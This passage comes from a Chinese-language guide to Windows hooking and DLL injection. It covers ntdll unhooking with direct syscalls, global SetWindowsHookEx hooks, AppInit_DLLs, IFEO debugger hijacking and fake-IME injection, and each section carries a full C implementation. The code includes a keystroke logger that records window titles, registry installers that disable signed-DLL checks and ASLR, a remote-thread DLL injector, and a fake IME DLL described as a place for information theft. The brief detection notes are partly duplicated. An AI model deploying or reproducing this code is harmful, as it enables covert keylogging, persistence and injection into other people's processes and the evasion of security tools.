        GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
if (hFile == INVALID_HANDLE_VALUE) return NULL;

    HANDLE hMapping = CreateFileMappingW(hFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    PVOID pClean = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);

    CloseHandle(hMapping);
    CloseHandle(hFile);

// 现在 pClean 是一份干净的 ntdll 映射
// 可以从这里获取真实的 syscall 编号
return (HMODULE)pClean;
}

// 从干净 ntdll 提取 SSN（用于直接 syscall）
DWORD GetCleanSsn(HMODULE hCleanNtdll, const char* funcName) {
    BYTE* pFunc = (BYTE*)GetProcAddress(hCleanNtdll, funcName);
if (!pFunc) return -1;
if (pFunc[0] == 0x4C && pFunc[3] == 0xB8) {
return *(DWORD*)(pFunc + 4);
    }
return -1;
}
```

### 检测难度：★★☆☆☆

直接读取 ntdll 的 .text 段对比磁盘文件即可发现修改。

### 关键对抗

现代反作弊（如 EAC、BattlEye）与 EDR 的常见做法：

1. 从磁盘重新映射一份干净 ntdll
2. 直接从干净副本中提取 SSN（Halo's Gate 等）
3. 用自己的 syscall 汇编直接调用内核，完全绕过被 Hook 的 ntdll
4. 内核层监控 syscall 来源（异常返回地址不在 ntdll 范围内）

### 直接 syscall 最小示例（理解绕过逻辑）

```c
// 从干净 ntdll 获取 SSN 后，用汇编直接 syscall（概念示例）
// NTSTATUS NtAllocateVirtualMemory(...) SSN 因 Windows 版本而异

__declspec(naked) NTSTATUS DirectSyscall_NtAllocateVirtualMemory(
    HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits,
    PSIZE_T RegionSize, ULONG AllocationType, ULONG Protect)
{
    __asm {
        mov r10, rcx
        mov eax, 0x18        ; 示例 SSN，实际需动态获取
        syscall
        ret
    }
}
```

> **注意**：SSN 随 Windows 版本变化，必须使用 Hell's Gate / SysWhispers 等动态获取，不可硬编码。

---

## 1.10 SetWindowsHookEx（Windows 消息钩子）

### 技术定位

**仍广泛使用**。Windows 官方消息钩子 API，低级钩子（`WH_KEYBOARD_LL` / `WH_MOUSE_LL`）不需要 DLL 注入，但需要消息循环；全局钩子会将 DLL 注入到目标进程。

### 原理

Windows 消息机制提供了全局钩子接口 `SetWindowsHookEx`，可以拦截系统范围内的键盘、鼠标、窗口消息等事件。设置全局钩子时，系统会将指定的 DLL 注入到所有拥有消息循环的进程中，这使它成为最经典的 DLL 注入 + 行为监控手段。

**常用钩子类型**：

| 类型               | 值   | 是否注入 DLL | 典型用途    |
| ---------------- | --- | -------- | ------- |
| `WH_KEYBOARD_LL` | 13  | 否（同进程）   | 全局键盘监控  |
| `WH_MOUSE_LL`    | 14  | 否（同进程）   | 全局鼠标监控  |
| `WH_GETMESSAGE`  | 3   | 是        | 拦截消息队列  |
| `WH_CALLWNDPROC` | 4   | 是        | 监控窗口过程  |
| `WH_CBT`         | 5   | 是        | 窗口创建/激活 |

### 完整实现

```c
#include <windows.h>
#include <stdio.h>

#pragma comment(lib, "user32.lib")

typedef struct {
    HHOOK hKeyboard;
    HHOOK hMouse;
    HHOOK hCbt;
    FILE* logFile;
    BOOL running;
} HOOK_ENGINE;

static HOOK_ENGINE g_engine = {0};

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
if (nCode == HC_ACTION) {
        KBDLLHOOKSTRUCT* kb = (KBDLLHOOKSTRUCT*)lParam;
constchar* action = (wParam == WM_KEYDOWN || wParam == WM_SYSKEYDOWN) ? "DOWN" : "UP";

char keyName[64] = {0};
GetKeyNameTextA((LONG)(MapVirtualKeyA(kb->vkCode, MAPVK_VK_TO_VSC) << 16), keyName, sizeof(keyName));

        DWORD pid = 0;
        HWND fg = GetForegroundWindow();
GetWindowThreadProcessId(fg, &pid);

char windowTitle[256] = {0};
GetWindowTextA(fg, windowTitle, sizeof(windowTitle));

fprintf(g_engine.logFile, "[%s] VK=0x%02X Scan=0x%02X Key=%s PID=%lu Window=%s flags=0x%08X\n",
            action, kb->vkCode, kb->scanCode, keyName, pid, windowTitle, kb->flags);
fflush(g_engine.logFile);

if (kb->flags & LLKHF_INJECTED) {
// 标记注入的键盘事件（来自 SendInput/keybd_event）
        }
    }
return CallNextHookEx(g_engine.hKeyboard, nCode, wParam, lParam);
}

LRESULT CALLBACK LowLevelMouseProc(int nCode, WPARAM wParam, LPARAM lParam) {
if (nCode == HC_ACTION) {
        MSLLHOOKSTRUCT* ms = (MSLLHOOKSTRUCT*)lParam;

constchar* event = "UNKNOWN";
switch (wParam) {
case WM_LBUTTONDOWN: event = "LDOWN"; break;
case WM_LBUTTONUP:   event = "LUP"; break;
case WM_RBUTTONDOWN: event = "RDOWN"; break;
case WM_RBUTTONUP:   event = "RUP"; break;
case WM_MOUSEMOVE:   return CallNextHookEx(g_engine.hMouse, nCode, wParam, lParam);
case WM_MOUSEWHEEL:  event = "WHEEL"; break;
        }

        HWND target = WindowFromPoint(ms->pt);
char className[128] = {0};
GetClassNameA(target, className, sizeof(className));

fprintf(g_engine.logFile, "[MOUSE] %s (%d,%d) Target=%s flags=0x%08X\n",
            event, ms->pt.x, ms->pt.y, className, ms->flags);
fflush(g_engine.logFile);
    }
return CallNextHookEx(g_engine.hMouse, nCode, wParam, lParam);
}

LRESULT CALLBACK CbtProc(int nCode, WPARAM wParam, LPARAM lParam) {
switch (nCode) {
case HCBT_CREATEWND: {
            CBT_CREATEWNDA* cbt = (CBT_CREATEWNDA*)lParam;
if (cbt->lpcs->lpszName) {
fprintf(g_engine.logFile, "[CBT] CREATE hwnd=%p class=%s title=%s\n",
                    (void*)(ULONG_PTR)wParam,
                    cbt->lpcs->lpszClass ? (constchar*)cbt->lpcs->lpszClass : "?",
                    cbt->lpcs->lpszName ? cbt->lpcs->lpszName : "?");
            }
break;
        }
case HCBT_DESTROYWND:
fprintf(g_engine.logFile, "[CBT] DESTROY hwnd=%p\n", (void*)(ULONG_PTR)wParam);
break;
case HCBT_ACTIVATE:
fprintf(g_engine.logFile, "[CBT] ACTIVATE hwnd=%p\n", (void*)(ULONG_PTR)wParam);
break;
    }
fflush(g_engine.logFile);
return CallNextHookEx(g_engine.hCbt, nCode, wParam, lParam);
}

BOOL InstallGlobalHooks() {
    g_engine.logFile = fopen("C:\\hook_log.txt", "a");
if (!g_engine.logFile) return FALSE;

    g_engine.hKeyboard = SetWindowsHookExA(WH_KEYBOARD_LL, LowLevelKeyboardProc, GetModuleHandleA(NULL), 0);
    g_engine.hMouse = SetWindowsHookExA(WH_MOUSE_LL, LowLevelMouseProc, GetModuleHandleA(NULL), 0);
    g_engine.hCbt = SetWindowsHookExA(WH_CBT, CbtProc, GetModuleHandleA(NULL), 0);

if (!g_engine.hKeyboard && !g_engine.hMouse && !g_engine.hCbt) {
fclose(g_engine.logFile);
return FALSE;
    }

    g_engine.running = TRUE;
return TRUE;
}

void UninstallGlobalHooks() {
if (g_engine.hKeyboard) { UnhookWindowsHookEx(g_engine.hKeyboard); g_engine.hKeyboard = NULL; }
if (g_engine.hMouse)    { UnhookWindowsHookEx(g_engine.hMouse);    g_engine.hMouse = NULL; }
if (g_engine.hCbt)      { UnhookWindowsHookEx(g_engine.hCbt);      g_engine.hCbt = NULL; }
if (g_engine.logFile)   { fclose(g_engine.logFile); g_engine.logFile = NULL; }
    g_engine.running = FALSE;
}

// 全局钩子 DLL 版本（注入到目标进程）
// hookdll.c - 编译为 hookdll.dll
#ifdef BUILD_HOOK_DLL

#pragma data_seg(".shared")
HHOOK g_hHook = NULL;
#pragma data_seg()
#pragma comment(linker, "/SECTION:.shared,RWS")

HINSTANCE g_hInst = NULL;

LRESULT CALLBACK GetMsgProc(int nCode, WPARAM wParam, LPARAM lParam) {
if (nCode == HC_ACTION) {
        MSG* msg = (MSG*)lParam;
// DLL 已注入目标进程，可以在此执行任意代码
// 例如：Hook 目标进程的 API、读取内存、修改行为等
    }
return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}

__declspec(dllexport) BOOL StartHook() {
    g_hHook = SetWindowsHookExA(WH_GETMESSAGE, GetMsgProc, g_hInst, 0);
return g_hHook != NULL;
}

__declspec(dllexport) void StopHook() {
if (g_hHook) { UnhookWindowsHookEx(g_hHook); g_hHook = NULL; }
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID reserved) {
if (reason == DLL_PROCESS_ATTACH) {
        g_hInst = hModule;
DisableThreadLibraryCalls(hModule);
    }
return TRUE;
}
#endif

int main() {
if (!InstallGlobalHooks()) {
printf("Failed to install hooks\n");
return 1;
    }
printf("Global hooks installed. Press Ctrl+C to exit.\n");

    MSG msg;
while (GetMessageA(&msg, NULL, 0, 0)) {
TranslateMessage(&msg);
DispatchMessageA(&msg);
    }

UninstallGlobalHooks();
return 0;
}
```

### 检测方法

* `GetWindowsHookEx` 无法直接枚举他人钩子，但可通过钩子 DLL 模块扫描
* 检查进程中是否加载了非预期的 DLL
* 监控 `SetWindowsHookEx` 调用（API Monitor 或 ETW）
* 低级钩子（`WH_KEYBOARD_LL`/`WH_MOUSE_LL`）不注入 DLL，但需要消息循环保持活跃

---

## 1.11 AppInit_DLLs（注册表全局注入）

### 技术定位

**已基本禁用**，仅作历史学习。通过注册表让所有加载 `user32.dll` 的进程自动加载指定 DLL。Win10 + Secure Boot 环境下几乎不可行。

### 原理

Windows 在加载 `user32.dll` 时会检查注册表 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs`，如果该键非空，则将指定的 DLL 加载到每个使用 `user32.dll` 的进程中。这是最古老的全局注入手段之一。

**启用条件（缺一不可）**：

| 注册表项                        | 值            | 说明                           |
| --------------------------- | ------------ | ---------------------------- |
| `AppInit_DLLs`              | DLL 路径（空格分隔） | 要注入的 DLL 列表                  |
| `LoadAppInit_DLLs`          | 1            | Win8+ 必须显式启用                 |
| `RequireSignedAppInit_DLLs` | 0 或 1        | Win10 Secure Boot 下必须为签名 DLL |

> Win8+ 需要额外设置 `LoadAppInit_DLLs = 1`，Win10 Secure Boot 模式下被彻底禁用（`RequireSignedAppInit_DLLs`）。

### 完整实现

```c
#include <windows.h>
#include <stdio.h>
#include <shlwapi.h>

#pragma comment(lib, "advapi32.lib")
#pragma comment(lib, "shlwapi.lib")

#define APPINIT_KEY L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows"
#define APPINIT_KEY_WOW64 L"SOFTWARE\\WOW6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows"

typedef struct {
    WCHAR dllPath[MAX_PATH];
BOOL is64bit;
BOOL requireSigned;
} APPINIT_CONFIG;

BOOL EnableAppInitDlls(const WCHAR* dllPath, BOOL enable) {
    HKEY hKey;
    LPCWSTR keyPath = APPINIT_KEY;

    LONG ret = RegOpenKeyExW(HKEY_LOCAL_MACHINE, keyPath, 0, KEY_SET_VALUE | KEY_QUERY_VALUE, &hKey);
if (ret != ERROR_SUCCESS) return FALSE;

if (enable) {
// 设置 LoadAppInit_DLLs = 1
        DWORD loadFlag = 1;
        RegSetValueExW(hKey, L"LoadAppInit_DLLs", 0, REG_DWORD, (BYTE*)&loadFlag, sizeof(DWORD));

// 读取现有值，追加新 DLL 路径
        WCHAR existing[4096] = {0};
        DWORD existingSize = sizeof(existing);
        RegQueryValueExW(hKey, L"AppInit_DLLs", NULL, NULL, (BYTE*)existing, &existingSize);

if (wcsstr(existing, dllPath) == NULL) {
if (wcslen(existing) > 0) wcscat_s(existing, 4096, L" ");
            wcscat_s(existing, 4096, dllPath);
        }

        RegSetValueExW(hKey, L"AppInit_DLLs", 0, REG_SZ, (BYTE*)existing, (DWORD)((wcslen(existing) + 1) * sizeof(WCHAR)));

// 禁用签名要求（仅测试环境）
        DWORD signFlag = 0;
        RegSetValueExW(hKey, L"RequireSignedAppInit_DLLs", 0, REG_DWORD, (BYTE*)&signFlag, sizeof(DWORD));
    } else {
// 从现有值中移除指定 DLL
        WCHAR existing[4096] = {0};
        DWORD existingSize = sizeof(existing);
        RegQueryValueExW(hKey, L"AppInit_DLLs", NULL, NULL, (BYTE*)existing, &existingSize);

        WCHAR* found = wcsstr(existing, dllPath);
if (found) {
            size_t dllLen = wcslen(dllPath);
// 移除路径和前后的空格
            WCHAR* afterDll = found + dllLen;
if (*afterDll == L' ') afterDll++;
            wmemmove(found, afterDll, wcslen(afterDll) + 1);
// 清理尾部空格
            size_t len = wcslen(existing);
while (len > 0 && existing[len-1] == L' ') existing[--len] = L'\0';
        }

        RegSetValueExW(hKey, L"AppInit_DLLs", 0, REG_SZ, (BYTE*)existing, (DWORD)((wcslen(existing) + 1) * sizeof(WCHAR)));

if (wcslen(existing) == 0) {
            DWORD loadFlag = 0;
            RegSetValueExW(hKey, L"LoadAppInit_DLLs", 0, REG_DWORD, (BYTE*)&loadFlag, sizeof(DWORD));
        }
    }

    RegCloseKey(hKey);
return TRUE;
}

// 被注入的 DLL 代码
#ifdef BUILD_PAYLOAD_DLL
#include <tlhelp32.h>

static BOOL g_initialized = FALSE;
static CHAR g_targetProcess[MAX_PATH] = "target.exe";

void PayloadMain() {
char currentExe[MAX_PATH];
    GetModuleFileNameA(NULL, currentExe, MAX_PATH);
char* exeName = strrchr(currentExe, '\\');
    exeName = exeName ? exeName + 1 : currentExe;

if (_stricmp(exeName, g_targetProcess) != 0) return;

// 仅在目标进程中执行 payload
// 示例：IAT Hook + 行为修改
    HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
// ... 执行具体 Hook 逻辑
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID reserved) {
switch (reason) {
case DLL_PROCESS_ATTACH:
            DisableThreadLibraryCalls(hModule);
if (!g_initialized) {
                g_initialized = TRUE;
                PayloadMain();
            }
break;
    }
return TRUE;
}
#endif

// 安装器
int wmain(int argc, WCHAR* argv[]) {
if (argc < 3) {
        wprintf(L"Usage: appinit_installer.exe <install|uninstall> <dll_path>\n");
return 1;
    }

BOOL install = (_wcsicmp(argv[1], L"install") == 0);

if (!PathFileExistsW(argv[2]) && install) {
        wprintf(L"DLL not found: %s\n", argv[2]);
return 1;
    }

if (EnableAppInitDlls(argv[2], install)) {
        wprintf(L"%s successful: %s\n", install ? L"Install" : L"Uninstall", argv[2]);

// 同时处理 WOW64 路径（32位进程在64位系统上）
BOOL isWow64 = FALSE;
        IsWow64Process(GetCurrentProcess(), &isWow64);
if (!isWow64) {
            HKEY hKey;
if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, APPINIT_KEY_WOW64, 0, KEY_SET_VALUE, &hKey) == ERROR_SUCCESS) {
                DWORD loadFlag = install ? 1 : 0;
                RegSetValueExW(hKey, L"LoadAppInit_DLLs", 0, REG_DWORD, (BYTE*)&loadFlag, sizeof(DWORD));
                RegCloseKey(hKey);
                wprintf(L"WOW64 key also updated\n");
            }
        }
    } else {
        wprintf(L"Failed (need administrator privileges)\n");
return 1;
    }

return 0;
}
```

### 检测方法

* 监控注册表键 AppInit_DLLs 和 LoadAppInit_DLLs 的变更

* 启用 Secure Boot + RequireSignedAppInit_DLLs 彻底阻止

* Process Monitor 观察 user32.dll 加载时的注册表查询

### 检测方法

* 监控注册表键 `AppInit_DLLs` 和 `LoadAppInit_DLLs` 的变更
* 启用 Secure Boot + `RequireSignedAppInit_DLLs` 彻底阻止
* Process Monitor 观察 `user32.dll` 加载时的注册表查询

---

## 1.12 IFEO（映像劫持 / 调试器重定向）

### 技术定位

**合法调试功能，常被滥用**。通过 IFEO 注册表在目标程序启动时自动运行"调试器"（实际为注入器）。无需修改目标二进制，重启后生效。

### 原理

Image File Execution Options（映像文件执行选项）是 Windows 提供的调试辅助功能。通过在注册表 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<exe>` 下设置 `Debugger` 值，可以让系统在启动指定程序时自动启动另一个程序（原程序路径作为参数传入）。

高级用法还包括 `GlobalFlag`（启用页堆等调试功能）和 `VerifierDlls`（Application Verifier 注入自定义 DLL）。



### 完整实现

```c
#include <windows.h>
#include <stdio.h>

#pragma comment(lib, "advapi32.lib")

#define IFEO_BASE L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options"

typedef enum {
    IFEO_DEBUGGER,        // 经典 Debugger 重定向
    IFEO_VERIFIER,        // Application Verifier DLL 注入
    IFEO_GLOBALFLAG,      // 全局标志（页堆、栈回溯等）
    IFEO_MITIGATION,      // 进程缓解策略修改
    IFEO_SILENT_EXIT      // 静默退出监控（WerFault 劫持）
} IFEO_METHOD;

BOOL InstallIfeo(const WCHAR* targetExe, const WCHAR* payload, IFEO_METHOD method) {
    WCHAR keyPath[512];
    swprintf_s(keyPath, 512, L"%s\\%s", IFEO_BASE, targetExe);

    HKEY hKey;
    DWORD disposition;
    LONG ret = RegCreateKeyExW(HKEY_LOCAL_MACHINE, keyPath, 0, NULL, 0, KEY_SET_VALUE, NULL, &hKey, &disposition);
if (ret != ERROR_SUCCESS) return FALSE;

BOOL result = FALSE;

switch (method) {
case IFEO_DEBUGGER: {
// 方法1：经典 Debugger 劫持
// 当系统启动 targetExe 时，实际启动的是 payload，targetExe 作为参数
            result = (RegSetValueExW(hKey, L"Debugger", 0, REG_SZ, 
                (BYTE*)payload, (DWORD)((wcslen(payload) + 1) * sizeof(WCHAR))) == ERROR_SUCCESS);
break;
        }

case IFEO_VERIFIER: {
// 方法2：Application Verifier 注入
// 设置 GlobalFlag 启用 verifier，指定自定义 verifier DLL
            DWORD globalFlag = 0x100;  // FLG_APPLICATION_VERIFIER
            RegSetValueExW(hKey, L"GlobalFlag", 0, REG_DWORD, (BYTE*)&globalFlag, sizeof(DWORD));
            result = (RegSetValueExW(hKey, L"VerifierDlls", 0, REG_SZ,
                (BYTE*)payload, (DWORD)((wcslen(payload) + 1) * sizeof(WCHAR))) == ERROR_SUCCESS);
break;
        }

case IFEO_GLOBALFLAG: {
// 方法3：启用页堆 + 栈回溯等调试功能
            DWORD flags = 0x02000000 | 0x1000;  // FLG_HEAP_PAGE_ALLOCS | FLG_USER_STACK_TRACE_DB
            result = (RegSetValueExW(hKey, L"GlobalFlag", 0, REG_DWORD, 
                (BYTE*)&flags, sizeof(DWORD)) == ERROR_SUCCESS);
break;
        }

case IFEO_MITIGATION: {
// 方法4：修改进程缓解策略
// 例如禁用 CFG、禁用 ASLR 等（降低目标安全性后再攻击）
            DWORD64 policy = 0;
// PROCESS_CREATION_MITIGATION_POLICY_FORCE_RELOCATE_IMAGES_ALWAYS_OFF
            policy |= (0x2ULL << 8);
// PROCESS_CREATION_MITIGATION_POLICY_BOTTOM_UP_ASLR_ALWAYS_OFF
            policy |= (0x2ULL << 16);

            WCHAR mitigation[128];
            swprintf_s(mitigation, 128, L"%llu", policy);
            result = (RegSetValueExW(hKey, L"MitigationOptions", 0, REG_SZ,
                (BYTE*)mitigation, (DWORD)((wcslen(mitigation) + 1) * sizeof(WCHAR))) == ERROR_SUCCESS);
break;
        }

case IFEO_SILENT_EXIT: {
// 方法5：静默退出监控
// 当进程退出时触发 WerFault 或自定义监控程序
            DWORD reportingMode = 1;  // LAUNCH_MONITORPROCESS
            RegSetValueExW(hKey, L"ReportingMode", 0, REG_DWORD, (BYTE*)&reportingMode, sizeof(DWORD));
            result = (RegSetValueExW(hKey, L"MonitorProcess", 0, REG_SZ,
                (BYTE*)payload, (DWORD)((wcslen(payload) + 1) * sizeof(WCHAR))) == ERROR_SUCCESS);

// 还需要在 SilentProcessExit 子键配置
            WCHAR silentKey[512];
            swprintf_s(silentKey, 512, L"%s\\%s\\SilentProcessExit", IFEO_BASE, targetExe);
            HKEY hSilent;
if (RegCreateKeyExW(HKEY_LOCAL_MACHINE, silentKey, 0, NULL, 0, KEY_SET_VALUE, NULL, &hSilent, NULL) == ERROR_SUCCESS) {
                RegSetValueExW(hSilent, L"MonitorProcess", 0, REG_SZ, (BYTE*)payload, (DWORD)((wcslen(payload) + 1) * sizeof(WCHAR)));
                RegSetValueExW(hSilent, L"ReportingMode", 0, REG_DWORD, (BYTE*)&reportingMode, sizeof(DWORD));
                RegCloseKey(hSilent);
            }
break;
        }
    }

    RegCloseKey(hKey);
return result;
}

BOOL RemoveIfeo(const WCHAR* targetExe) {
    WCHAR keyPath[512];
    swprintf_s(keyPath, 512, L"%s\\%s", IFEO_BASE, targetExe);
return (RegDeleteTreeW(HKEY_LOCAL_MACHINE, keyPath) == ERROR_SUCCESS);
}

// Debugger 代理程序（作为 payload 使用）
// 当系统通过 IFEO 启动此程序时，原始 exe 路径在 argv[1]
#ifdef BUILD_DEBUGGER_PROXY
int wmain(int argc, WCHAR* argv[]) {
if (argc < 2) return 1;

// argv[1] = 原始目标程序路径
// 可以在此注入 DLL 后再启动目标程序

    STARTUPINFOW si = { sizeof(si) };
    PROCESS_INFORMATION pi = {0};

// 注入方式：CREATE_SUSPENDED -> 注入 DLL -> ResumeThread
if (CreateProcessW(argv[1], GetCommandLineW(), NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
// 在这里执行 DLL 注入
        WCHAR dllToInject[] = L"C:\\payload.dll";
        SIZE_T dllPathSize = (wcslen(dllToInject) + 1) * sizeof(WCHAR);

        LPVOID remoteBuf = VirtualAllocEx(pi.hProcess, NULL, dllPathSize, MEM_COMMIT, PAGE_READWRITE);
        WriteProcessMemory(pi.hProcess, remoteBuf, dllToInject, dllPathSize, NULL);

        HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
        LPTHREAD_START_ROUTINE pLoadLibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");

        HANDLE hThread = CreateRemoteThread(pi.hProcess, NULL, 0, pLoadLibrary, remoteBuf, 0, NULL);
        WaitForSingleObject(hThread, 5000);
        CloseHandle(hThread);
        VirtualFreeEx(pi.hProcess, remoteBuf, 0, MEM_RELEASE);

        ResumeThread(pi.hThread);
        CloseHandle(pi.hThread);
        CloseHandle(pi.hProcess);
    }

return 0;
}
#endif

int wmain(int argc, WCHAR* argv[]) {
// 示例：对 notepad.exe 安装 IFEO Debugger 劫持
    InstallIfeo(L"notepad.exe", L"C:\\debugger_proxy.exe", IFEO_DEBUGGER);
    wprintf(L"IFEO installed for notepad.exe\n");

// 示例：对 target.exe 安装 Verifier DLL 注入
    InstallIfeo(L"target.exe", L"payload.dll", IFEO_VERIFIER);
    wprintf(L"Verifier DLL injection configured for target.exe\n");

return 0;
}
```

### 检测方法

* 监控 IFEO 注册表键的创建和修改（Sysmon Event ID 12/13）

* 检查所有 IFEO 子键是否有 Debugger、VerifierDlls、MonitorProcess 等可疑值

* 应用白名单：仅允许已知调试器（如 vsjitdebugger.exe）作为 Debugger 值

### 检测方法

* 监控 IFEO 注册表键的创建和修改（Sysmon Event ID 12/13）
* 检查所有 IFEO 子键是否有 `Debugger`、`VerifierDlls`、`MonitorProcess` 等可疑值
* 应用白名单：仅允许已知调试器（如 `vsjitdebugger.exe`）作为 Debugger 值

---

## 1.13 IME 注入（输入法注入）

### 技术定位

**历史攻击向量**，现代环境罕见。通过注册伪造输入法，在切换输入法时将 DLL 加载到 GUI 进程。

### 原理

Windows 输入法（IME）通过注册表 `HKLM\SYSTEM\CurrentControlSet\Control\Keyboard Layouts` 注册，每个输入法对应一个 DLL。当用户切换到该输入法时，系统会将对应的 IME DLL 加载到当前焦点进程中。通过注册一个伪造的输入法 DLL，可以实现对任意 GUI 进程的 DLL 注入。

更高级的方式是使用 Text Services Framework（TSF），通过 COM 接口注册 Text Input Processor，实现更隐蔽的注入。

### 完整实现

```c
#include <windows.h>
#include <imm.h>
#include <stdio.h>

#pragma comment(lib, "imm32.lib")
#pragma comment(lib, "advapi32.lib")
#pragma comment(lib, "user32.lib")

#define FAKE_IME_KEY L"E0200804"  // 自定义键盘布局 ID
#define FAKE_IME_NAME L"Fake Research IME"

// === 安装器代码 ===

BOOL RegisterFakeIme(const WCHAR* imeDllPath) {
    WCHAR keyPath[256];
    swprintf_s(keyPath, 256, L"SYSTEM\\CurrentControlSet\\Control\\Keyboard Layouts\\%s", FAKE_IME_KEY);

    HKEY hKey;
    DWORD disposition;
    LONG ret = RegCreateKeyExW(HKEY_LOCAL_MACHINE, keyPath, 0, NULL, 0, KEY_SET_VALUE, NULL, &hKey, &disposition);
if (ret != ERROR_SUCCESS) return FALSE;

// 设置输入法文件名（只需要文件名，不需要完整路径，DLL 需放在 System32）
    WCHAR* dllName = wcsrchr(imeDllPath, L'\\');
    dllName = dllName ? dllName + 1 : (WCHAR*)imeDllPath;

    RegSetValueExW(hKey, L"Ime File", 0, REG_SZ, (BYTE*)dllName, (DWORD)((wcslen(dllName) + 1) * sizeof(WCHAR)));
    RegSetValueExW(hKey, L"Layout Text", 0, REG_SZ, (BYTE*)FAKE_IME_NAME, sizeof(FAKE_IME_NAME));

    WCHAR layoutFile[] = L"kbdus.dll";
    RegSetValueExW(hKey, L"Layout File", 0, REG_SZ, (BYTE*)layoutFile, sizeof(layoutFile));

    RegCloseKey(hKey);

// 复制 DLL 到 System32
    WCHAR sysDir[MAX_PATH];
    GetSystemDirectoryW(sysDir, MAX_PATH);
    WCHAR destPath[MAX_PATH];
    swprintf_s(destPath, MAX_PATH, L"%s\\%s", sysDir, dllName);
    CopyFileW(imeDllPath, destPath, FALSE);

return TRUE;
}

BOOL ActivateFakeIme(DWORD targetTid) {
// 加载输入法到指定线程
    HKL hkl = LoadKeyboardLayoutW(FAKE_IME_KEY, KLF_ACTIVATE);
if (!hkl) return FALSE;

if (targetTid != 0) {
// 向目标线程发送输入法切换消息
        PostThreadMessageW(targetTid, WM_INPUTLANGCHANGEREQUEST, 0, (LPARAM)hkl);
    }

return TRUE;
}

BOOL InjectViaIme(DWORD targetPid) {
// 找到目标进程的主线程
    HWND hWnd = NULL;
    DWORD tid = 0;

// 枚举目标进程的窗口
typedef struct { DWORD pid; HWND hwnd; } FIND_WND_DATA;
    FIND_WND_DATA data = { targetPid, NULL };

    EnumWindows([](HWND hwnd, LPARAM lp) -> BOOL {
        FIND_WND_DATA* d = (FIND_WND_DATA*)lp;
        DWORD pid;
        GetWindowThreadProcessId(hwnd, &pid);
if (pid == d->pid && IsWindowVisible(hwnd)) {
            d->hwnd = hwnd;
return FALSE;
        }
return TRUE;
    }, (LPARAM)&data);

if (!data.hwnd) return FALSE;

    tid = GetWindowThreadProcessId(data.hwnd, NULL);

// 激活伪造输入法到目标线程
    HKL hkl = LoadKeyboardLayoutW(FAKE_IME_KEY, KLF_ACTIVATE | KLF_REORDER);
if (!hkl) return FALSE;

// 通过 WM_INPUTLANGCHANGEREQUEST 触发目标进程加载 IME DLL
    PostMessageW(data.hwnd, WM_INPUTLANGCHANGEREQUEST, 0, (LPARAM)hkl);

return TRUE;
}

void UnregisterFakeIme() {
    UnloadKeyboardLayout(LoadKeyboardLayoutW(FAKE_IME_KEY, 0));

    WCHAR keyPath[256];
    swprintf_s(keyPath, 256, L"SYSTEM\\CurrentControlSet\\Control\\Keyboard Layouts\\%s", FAKE_IME_KEY);
    RegDeleteTreeW(HKEY_LOCAL_MACHINE, keyPath);
}

// === IME DLL 代码 ===
// 编译为 fakeime.dll，需导出 IME 标准接口

#ifdef BUILD_IME_DLL

static BOOL g_payloadExecuted = FALSE;

void ImePayload() {
if (g_payloadExecuted) return;
    g_payloadExecuted = TRUE;

// 检查是否在目标进程中
char exePath[MAX_PATH];
    GetModuleFileNameA(NULL, exePath, MAX_PATH);

// 执行实际 payload：内存 Hook、信息窃取等
// 此处 IME DLL 已被系统加载到目标进程中

// 示例：记录按键到共享内存
    HANDLE hMap = CreateFileMappingA(INVALID_HANDLE_VALUE, NULL, PAGE_READWRITE, 0, 4096, "Global\\ImeHookShared");
if (hMap) {
char* pBuf = (char*)MapViewOfFile(hMap, FILE_MAP_WRITE, 0, 0, 4096);
if (pBuf) {
// 写入当前进程信息
            sprintf_s(pBuf, 4096, "Injected into PID: %lu EXE: %s", GetCurrentProcessId(), exePath);
            UnmapViewOfFile(pBuf);
        }
    }
}

// IME 标准导出函数
__declspec(dllexport) BOOL WINAPI ImeInquire(LPIMEINFO lpIMEInfo, LPWSTR lpszUIClass, LPCWSTR lpszOption) {
    ImePayload();
    lpIMEInfo->dwPrivateDataSize = 0;
    lpIMEInfo->fdwProperty = IME_PROP_UNICODE | IME_PROP_AT_CARET;
    lpIMEInfo->fdwConversionCaps = 0;
    lpIMEInfo->fdwSentenceCaps = 0;
    lpIMEInfo->fdwUICaps = 0;
    lpIMEInfo->fdwSCSCaps = 0;
    lpIMEInfo->fdwSelectCaps = 0;
    wcscpy_s(lpszUIClass, 64, L"FakeIMEUI");
return TRUE;
}

__declspec(dllexport) BOOL WINAPI ImeConfigure(HKL hKL, HWND hWnd, DWORD dwMode, LPVOID lpData) { return FALSE; }
__declspec(dllexport) DWORD WINAPI ImeConversionList(HIMC hIMC, LPCWSTR lpSrc, LPCANDIDATELIST lpDst, DWORD dwBufLen, UINT uFlag) { return 0; }
__declspec(dllexport) BOOL WINAPI ImeDestroy(UINT uForce) { return TRUE; }
__declspec(dllexport) LRESULT WINAPI ImeEscape(HIMC hIMC, UINT uSubFunc, LPVOID lpData) { return 0; }
